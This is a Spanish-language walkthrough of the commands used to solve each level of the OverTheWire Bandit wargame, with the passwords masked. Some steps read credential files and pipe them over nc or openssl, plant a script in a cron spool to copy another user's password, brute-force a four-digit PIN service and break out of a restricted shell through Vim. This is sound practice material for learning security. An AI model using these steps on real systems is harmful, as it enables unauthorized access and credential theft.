


# Comandos usados en los niveles de Bandit

## Level 0 `->` 1

```bash 
du -a
cat $HOME/readme
********************************
exit
```

## Level 1 `->` 2

```bash
find . -type f -name - 2> /dev/null
cat ~/-
********************************
exit
```

## Level 2 `->` 3

```bash
du -a
cat ./"spaces in this filename"
********************************
exit
```

## Level 3 `->` 4

```bash
ls -a ~/inhere
cat ~/inhere/.hidden
********************************
exit
```

## Level 4 `->` 5

```bash
ls
cd inhere
#du -h
#du -a
#find . -type f -exec sh -c 'file -b {} &> /dev/null' \; -print
find . -type f | xargs file | grep text
cat ./-file07
********************************
exit
```

## Level 5 `->` 6

```bash
ls -a ~/inhere
#find . -size 1033 -type f | xargs file | grep text
find . -size 1033c -type f | xargs file | grep text
cat $HOME/inhere/maybehere07/.file2 
********************************
exit
```

## Level 6 `->` 7

```bash
#find . -size 33c -user bandit7 -group bandit6 -type f
#find / -size 33c -user bandit7 -group bandit6 -type f
find / -size 33c -user bandit7 -group bandit6 -type f 2> /dev/null
ls -la /var/lib/dpkg/info/bandit7.password
cat /var/lib/dpkg/info/bandit7.password
********************************
exit
```

## Level 7 `->` 8

```bash
ls 
#cat data.txt
#cat data.txt | base64 -d
#cat data.txt | grep  millionth
#cat data.txt | grep -w  millionth
#cat data.txt | grep -w millionth | head -1
#cat data.txt | grep -w millionth | head -1 | awk {$2} | print
#cat data.txt | grep -w millionth | head -1 | awk {print $2}
cat data.txt | grep -w millionth | head -1 | awk '{print $2}'
********************************
exit
```

## Level 8 `->` 9

```bash
ls
#cat data.txt | uniq -c
#sort data.txt | uniq
#sort data.txt | uniq -c
#awk '!x[$0]++' data.txt
#grep -wo data.txt | sort data.txt | uniq -c
#grep -wo data.txt | sort data.txt | uniq -c | awk '{if ($? == 0) print}'
#grep -wo data.txt | sort data.txt | uniq -c | awk '$1 ~ /1/ {print}' data.txt
#grep -wo data.txt | sort data.txt | uniq -c | awk '$1 == "1" {print $2}' data.txt
#grep -wo data.txt | sort data.txt | uniq -c | awk '$1 == "1" {print $2}'
#********************************
sort data.txt | uniq -c | awk '$1 == 1 {print $2}'
********************************
exit
```

## Level 9 `->` 10

```bash
ls
#cat data.txt
#grep "=====" data.txt
#xxd data.txt
#xxd data.txt | awk '{print $10}'
#xxd data.txt | awk '$10 ~ !/^==/ {print $10}'
#xxd data.txt | awk '($10 ~ /^[A-Za-z0-9\s]/ {print $10}'
#xxd data.txt | awk '($10 !~ /^=*/) && ($10 !~ /^.*/) {print $10}'
#xxd data.txt | awk '$10 !~ /*..*/ {print $10}' | grep -A 1 "========"
#xxd data.txt | awk '$10 !~ /^..*/ {print $10}' | grep -A 1 "========"
#xxd data.txt | awk '$10 !~ /...*/ {print $10}' | grep -A 1 "====="
#xxd data.txt | awk '{print $10}' | grep -A 1 "="
#xxd data.txt | awk '{print $10}' | grep -A 1 "^="
#xxd data.txt | awk '{print $10}' | grep -A 1 "^=" | tail -1
#6J3kTb8A7j9Lgryw
#6J3kTb8A7j9LgrywtEUlyyp6s
strings data.txt | awk '$1 ~/=/ {print $2}'
strings data.txt | awk '$1 ~ /=/ {print $2}' | grep "^G"
********************************
exit
```

## Level 10 `->` 11

```bash
base64 -d data.txt
base64 -d data.txt | awk '{print $4}'
********************************
exit
```

## Level 11 `->` 12


```bash
#cat data.txt
#base64 -d data.txt | tr "A-Za-z" "N-ZA-Mn-za-m"
#cat data.txt | tr "A-Za-z" "N-ZA-Mn-za-m"
cat data.txt | tr "A-Za-z" "N-ZA-Mn-za-m" | awk '{print $4}'
********************************
exit
```

## Level 12 `->` 13

```bash
ls
mkdir /tmp/gatovsky
cp data.txt /tmp/gatovsky && cd /tmp/gatovsky
mv data.txt data
cat data | xxd -r > data1
file data1
#data1: gzip compressed data
ls
mv data1 data2.gz
gzip -c data2.gz
gzip -d data2.gz
file data2
#data2: bzip2 compressed data
mv data2 data3.bz
bzip2 -d data3.bz
file data3
#data3: gzip compressed data
ls
mv data3 data4.gz
gzip -d data4.gz
file data4
#data4: POSIX tar archive
cp data4 data4-2 # respaldo por si la cago
mv data4 data5.tar
tar -xf data5.tar
ls
./data5.bin
file data5.bin
#data5.bin: POSIX tar archive
mv data5.bin data6.tar
tar -xf data6.tar
file data6.bin
#data6.bin: bzip2 compressed data
mv data6.bin data7.bz
bzip2 -d data7.bz
ls
file data7
data7: POSIX tar archive
mv data7 data8.tar
tar -xf data8.tar
file data8.bin
#data8.bin: gzip compressed data
ls
mv data8.bin data9.gz
gzip -d data9.gz
file data9
#data9: ASCII text
cat data9 | awk '{print $4}'
********************************
exit
```

## Level 13 `->` 14

```bash
#ssh-keygen
#mkdir .shh
#ssh-copy-id -i sshkey.private bandit14@bandit
#ssh bandit14@bandit 
#ssh bandit14@bandit -i sshkey.private
#ssh bandit14@localhost -i sshkey.private
ssh bandit14@localhost -i sshkey.private -p 2220
```

## Level 14 `->` 15

```bash
cat /etc/bandit_pass/bandit14 
********************************
#nc "********************************" localhost 30000
cat /etc/bandit_pass/bandit14 | nc localhost 30000
********************************
exit
exit
```

## Level 15 `->` 16

```bash
cat /etc/bandit_pass/bandit15 
openssl s_client -connect localhost:30001
#cat /etc/bandit_pass/bandit15 | openssl s_client -connect localhost:30001
#cat /etc/bandit_pass/bandit15 | openssl aes-256-cbc localhost:30001
#cat /etc/bandit_pass/bandit15 | openssl aes-256-cbc s_client localhost:30001
#cat /etc/bandit_pass/bandit15 | openssl -ign_eof localhost:30001
cat /etc/bandit_pass/bandit15 | openssl s_client -ign_eof localhost:30001
Correct!
********************************
exit
```

## Level 16 `->` 17

```bash
nc -zv localhost 31000-32000 >& /tmp/ports.txt 
cat /tmp/ports.txt 
cat /tmp/ports.txt |  grep "^Connection"
cat /tmp/ports.txt |  grep "^Connection" | awk '{print $5}' > /tmp/ports2.txt
cat /tmp/ports2.txt
31046
31518
31691
31790
31960
#for i in $(cat /tmp/ports2.txt); do openssl s_client -connect localhost:$i; done;
#openssl s_client -connect localhost:31046
openssl s_client -connect localhost:31518
#openssl s_client -connect localhost:31691
openssl s_client -connect localhost:31790
#openssl s_client -connect localhost:31960
#********************************
echo "********************************" | openssl s_client -ign_eof localhost:31518
cat /etc/bandit_pass/bandit16 | openssl s_client -ign_eof localhost:31790
cat /etc/bandit_pass/bandit16 | openssl s_client -ign_eof localhost:31790 | grep -A 26 "BEGIN RSA"  > /tmp/sshkey.private
cat /tmp/sshkey.private
ssh -i /tmp/sshkey.private bandit17@localhost -p 2220
```

## Level 17 `->` 18

```bash
diff -c passwords.new passwords.old
cat passwords.new | grep "********************************"
********************************
exit 
exit
```

## Level 18 `->` 19

```bash
ssh bandit18@bandit.labs.overthewire.org -p 2220 
Byebye !
#ssh bandit18@bandit.labs.overthewire.org -p 2220 | cat ~/readme
#sh bandit18@bandit.labs.overthewire.org -p 2220 && cat ~/readme
sh bandit18@bandit.labs.overthewire.org -p 2220  “cat ~/readme”
********************************
```

## Level 19 `->` 20

```bash
/bandit20-do
./bandit20-do id
uid=11019(bandit19) gid=11019(bandit19) euid=11020(bandit20) groups=11019(bandit19)
file bandit20-do
ls -ll bandit20-do
groups bandit19
#id -u
#./bandit20-do id cat /etc/bandi>&t_pass/bandit20
./bandit20-do cat /etc/bandit_pass/bandit20
********************************
exit
```

## Level 20 `->` 21

* nc -l – This command will instruct the local system to begin listening for TCP connections and UDP activity on a specific port number.

🗒️ Nota: levantar un servidor  que escuche conexiones `TCP / UDP` en segundo plano a través de un puerto específico y que devuelva la contraseña del nivel actual, verificar que el server esté levantado y posterior hacer uso del binario `suconnect` con el puerto del servidor

```bash
ls
./suconnect
Usage: ./suconnect <portnumber>
#./suconnect 2220 | "cat /etc/bandit_pass/bandit20"
#cat /etc/bandit_pass/bandit20 | ./suconnect 2220
#"********************************" | nc -l localhost 31002
#"********************************" | nc -l localhost 31002 & # proceso levantado erroneamente
#3051766 # IDP
echo "********************************" | nc -l localhost 31002 &
3051922 # IDP
ps aux 
kill 3051766 # matar proceso levantado por error
./suconnect 31002 # ejecutar el binario con el puerto especificado anteriormente 
Read: ********************************
Password matches, sending next password
********************************
exit
```

## Level 21 `->` 22

```bash
ps aux
cd /etc/cron.d
ls -la
#crontab -l
#crontab -e
cat cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
cat /usr/bin/cronjob_bandit22.sh 
#!/bin/bash
chmod 644 /tmp/********************************
cat /etc/bandit_pass/bandit22 > /tmp/********************************

cat /tmp/********************************
********************************
exit
```

## Level 22 `->` 23

```bash
cd /etc/cron.d/
ls -la
cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget

bash /usr/bin/cronjob_bandit23.sh
cat /tmp/********************************
********************************

#md5sum /tmp/********************************
#vim /tmp/superHacker.sh
#ls -la /usr/bin/cronjob_bandit23.sh
#chmod 750 /tmp/superHacker.sh

#Busca la clave MD5 que corresponde a bandit23, su password ya está en /tmp/”clave”
myname=bandit23
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo $mytarget
********************************
cat /tmp/********************************
********************************
exit
```

## Level 23 `->` 24

```bash
cd /etc/cron.d
ls -la
cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
***** bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

cat /usr/bin/cronjob_bandit24.sh

mkdir /tmp/wenas
touch /tmp/wenas/pass
cat >> /tmp/wenas/gatovksyHacker.sh << EOF
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/wenas/pass
EOF

chmod 777 /tmp/wenas/pass
chmod 777  /tmp/wenas/gatovksyHacker.sh

cp /tmp/wenas/gatovskyHacker.sh /var/spool/bandit24/foo
bash /usr/bin/cronjob_bandit24.sh 
cat /tmp/wenas/pass
********************************
exit
```

## Level 24 `->` 25

```bash
#echo "******************************** 0000" | nc bandit.labs.overthewire.org 30002
#echo "******************************** 0000" | openssl s_client -connect bandit.labs.overthewire.org:30002
#ssh bandit23@bandit.labs.overthewire.org -p 2220
#echo "******************************** 0000" | openssl s_client -connect localhost:30002
#"******************************** 0000" | nc localhost 30002
#nc localhost 30002

mkdir /tmp/gatvosky24
cd /tmp/gatovsky24
touch passpin.txt
vim generarpin.sh
```

```bash
#!/bin/bash
#Author: Gatovsky

for ((i = 0; i <= 10000; i++)); do
        printf ******************************** >> passpin.txt
        printf " %.4d\n" $i >> passpin.txt
done 

nc localhost 30002 < /tmp/gatovsky23/passpin.txt
```

```bash
bash generarpin.sh
Correct!
The password of user bandit25 is ********************************
```

## Level 25 `->` 26

```bash
#ssh bandit26@localhost -i sshkey.private -p 2220 “ls -a ~/”
#openssl s_client -connect bandit26@localhost:2220
ls -la
#ssh bandit26@localhost -i bandit26.sshkey -p 2220 “ls -a ~/”
#ssh bandit26@localhost -i bandit26.sshkey -p 2220
#ssh bandit26@localhost -i bandit26.sshkey 
ls -la /etc/bandit_pass/

cat /etc/passwd
cat /etc/passwd | awk '$1 ~ /bandit26/ {print}'
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

cat /usr/bin/showtext
```
```bash
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

auutcilioooooo!!

aplicando los hacks encontrados en google :3 porque el `ssh bandit26@localhost -i bandit26.sshkey` rechaza la conexión dado que la sesión no tiene un shell asignado, nada más un cochino mensaje en text.txt

1. Reducir la terminal para que el ASCII art del mensaje que se encuentra en el archivo `text.txt` se muestren incompletas. Procedemos a establecer la conexión ssh


2. Cuando tengamos una vista similar precionamos `v`, eso hará que el editor `Vim` abra el archivo `text.txt` lo cual nos retendrá en la sesión de `bandit26`


3. Le decimos a `Vim` que nos habrá el poderosísismo `/etc/bandit_pass/bandit26`




4. Guardamos el password y posteriormente asignamos una `shell` a la sesión 



5. Ejecutamos la shell desde `Vim`


## Level 26 `->` 27

* Solución similar al nivel 19

```bash
ls
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
********************************
exit
exit
```

## Level 27 `->` 28

```bash
#ssh bandit27-git@localhost -p 2220
mkdir /tmp/gatovsky27
chmod 777 /tmp/gatovsky27
cd /tmp/gatovsky27
#ssh bandit27-git@localhost -p 2220 git clone bandit27-git@localhost/home/bandit27-git/repo
#ssh bandit27-git@localhost -p 2220  ls ~/repo
git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
cd repo
cat README
The password to the next level is: ********************************
exit
```

## Level 28 `->` 29

```bash
mkdir /tmp/gatovsky28
chmod 777 /tmp/gatovsky28
cd /tmp/gatovsky28
git clone ssh://bandit28-git@localhost:2220/home/bandit28-git/repo
cd repo
ls
cat *.md
#xxd *.md
#file *.md
git log
commit 43032edb2fb868dea2ceda9cb3882b2c336c09ec (HEAD -> master, origin/master, origin/HEAD)
Author: Morla Porla <morla@overthewire.org>
Date:   Thu Sep 1 06:30:25 2022 +0000

#busca la última deferencia en las versiones de los commits
git log -p -1
diff --git a/README.md b/README.md
index b302105..5c6457b 100644
--- a/README.md
+++ b/README.md
@@ -4,5 +4,5 @@ Some notes for level29 of bandit.
 ## credentials
 
 - username: bandit29
-- password: ********************************
+- password: xxxxxxxxxx

exit
```

## Level 29 `->` 30

```bash
Level 29 → 30

mkdir /tmp/gatovsky29
chmod 777 /tmp/gatovsky29
cd /tmp/gatovsky29

git clone ssh://bandit29-git@localhost:2220/home/bandit29-git/repo

cd repo
cat *.md
git log
git branch

#NO HAY NADA EN PRODUCCIÓN? VAMOS A DEV!
git checkout dev
git branch
git log -p -1

diff --git a/README.md b/README.md
index 1af21d3..a4b1cf1 100644
--- a/README.md
+++ b/README.md
@@ -4,5 +4,5 @@ Some notes for bandit30 of bandit.
 ##credentials
 
 - username: bandit30
-- password: <no passwords in production!>
+- password: ********************************
exit
```

Level 30 `->` 31

```bash
mkdir /tmp/gatovsky30
chmod 777 /tmp/gatovsky30
cd /tmp/gatovsky30
git clone ssh://bandit30-git@localhost:2220/home/bandit30-git/repo
cd repo
cat *.md
git log
git branch
#git checkout hotfix
#git checkout issuses

#verifica las etiquetas de los nodos importantes de git!
git tag
git show secret
********************************
exit
```

## Level 31 `->` 32

```bash
mkdir /tmp/gatovsky31
chmod 777 /tmp/gatovsky31
cd /tmp/gatovsky31
git clone ssh://bandit31-git@localhost:2220/home/bandit31-git/repo
cd repo
ls
cat *.md

vim key.txt
May I come in?

#git add *.txt
vim .gitignore

#borre el  *.txt 

git add .
git commit -m “key”
git push ssh://bandit31-git@localhost:2220/home/bandit31-git/repo master

remote: Well done! Here is the password for the next level:
remote: ******************************** 
exit
```

## Level 32 `->` 33

```bash
#ls
#sh
#man
#bash
#shell
#clear
Ctrl + C
ls -a
#file uppershell
#xdd uppershell
#xdd uppershell | sort uppershell | uniq -c
#./uppershell id
whoami
bandit33

#Ahuvio!
cat /etc/bandit_pass/bandit33
********************************
exit
```

## Level 33

```bash
ls
cat README.txt
Congratulations on solving the last level of this game!

At this moment, there are no more levels to play in this game. However, we are constantly working
on new levels and will most likely expand this game with more levels soon.
Keep an eye out for an announcement on our usual communication channels!
In the meantime, you could play some of our other wargames.

If you have an idea for an awesome new level, please let us know!
```
